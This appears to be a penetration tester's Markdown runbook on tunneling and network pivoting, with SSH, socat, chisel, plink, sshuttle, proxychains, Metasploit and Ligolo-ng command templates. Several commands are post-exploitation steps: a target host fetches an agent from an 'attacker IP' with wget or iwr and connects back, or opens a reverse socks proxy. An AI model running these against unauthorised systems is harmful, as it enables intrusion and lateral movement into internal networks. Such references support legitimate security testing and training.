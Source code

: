 # Tunneling
<!--- Status 90% --->
<!--- Maybe add another tunneling agent --->

## Introduction

This runbook provides a guide to tunneling. It includes a variety of techniques and tools for port forwading, using a proxy, and setting up tunnels with agents.

## Table of Content

- [Tunneling](#tunneling)
  - [Introduction](#introduction)
  - [Table of Content](#table-of-content)
  - [Port Fowarding](#port-fowarding)
    - [SSH Tunneling/Local Port Forwarding](#ssh-tunnelinglocal-port-forwarding)
    - [SSH Remote Port Forwarding](#ssh-remote-port-forwarding)
    - [Socat - Port Forward](#socat---port-forward)
    - [chisel  - Remote Port Forward](#chisel----remote-port-forward)
    - [Chisel - Local Port Forward](#chisel---local-port-forward)
    - [pklink - Remote Port Forward](#pklink---remote-port-forward)
  - [Proxying - Network Pivoting](#proxying---network-pivoting)
    - [sshuttle (Unix) - proxying](#sshuttle-unix---proxying)
    - [SSH + Proxychains](#ssh--proxychains)
    - [chisel  - Reverse Proxy](#chisel----reverse-proxy)
    - [chisel - Forward Proxy](#chisel---forward-proxy)
    - [metasploit - proxying](#metasploit---proxying)
  - [Tunneling with an aganet](#tunneling-with-an-aganet)
    - [Ligolo](#ligolo)

## Port Fowarding

### SSH Tunneling/Local Port Forwarding  

```sh
ssh user@<ip> -p port -L 8001:127.0.0.1:8080 -fN
```

### SSH Remote Port Forwarding

```sh
ssh -R 5555:127.0.0.1:5555 -p2222 <user>@<ip>
```

### Socat - Port Forward

```sh
./socat.exe TCP-LISTEN:8002,fork,reuseaddr TCP:127.0.0.1:8080
```

### chisel  - Remote Port Forward 

```sh
# kali
./chisel server -p <LISTEN_PORT> --reverse &
```

```cmd
# windows
./chisel client <client_port>:<client_port> R:<LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT> &
```

### Chisel - Local Port Forward

```cmd
# host
./chisel server -p <LISTEN_PORT>
```

```sh
# kali
./chisel client <client_port>:<client_port> <LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT>
```

### pklink - Remote Port Forward

```cmd
cmd.exe /c echo y | plink.exe -ssh -l <user> -pw <password> -R 192.168.0.20:1234:127.0.0.1:3306 192.168.0.20
```

## Proxying - Network Pivoting

### sshuttle (Unix) - proxying  

```sh
sshuttle -r user@<ip> --ssh-cmd "ssh -i private_key" 172.16.0.0/24
```

### SSH + Proxychains

edit /etc/proxychains.conf with socks4 127.0.0.1 8080
```sh
ssh -N -D 127.0.0.1:8080 <user>@<ip> -p 2222
```
  
### chisel  - Reverse Proxy

```sh
# kali
./chisel server -p LISTEN_PORT --reverse &
```
Host  
```cmd
./chisel client <TARGET_IP>:<LISTEN_PORT> R:socks &
```

### chisel - Forward Proxy  

Host  
```cmd
./chisel server -p <LISTEN_PORT> --socks5
```
```sh
# kali
./chisel client <TARGET_IP>:<LISTEN_PORT> <PROXY_PORT>:socks
```

### metasploit - proxying

```sh
route add <ip>/24 1
route print
use auxiliary/server/socks_proxy
run
```

## Tunneling with an aganet

### [Ligolo](https://github.com/nicocha30/ligolo-ng)

```sh
# kali
sudo ip tuntap add user <user> mode tun ligolo
sudo ip link set ligolo up
ligolo-proxy -selfcert -laddr 0.0.0.0:<port>
sudo ip route add <ip-range> dev ligolo
```

```
# host
wget http://<ip>/<linuxagent>
OR
iwr -uri http://<ip>/agent.exe -Outfile agent.exe
agent.exe -connect <attacker IP here>:<port> -ignore-cert
```

```sh
# kali
session
start
```

 <!--- Last Updated July 9, 2024 --->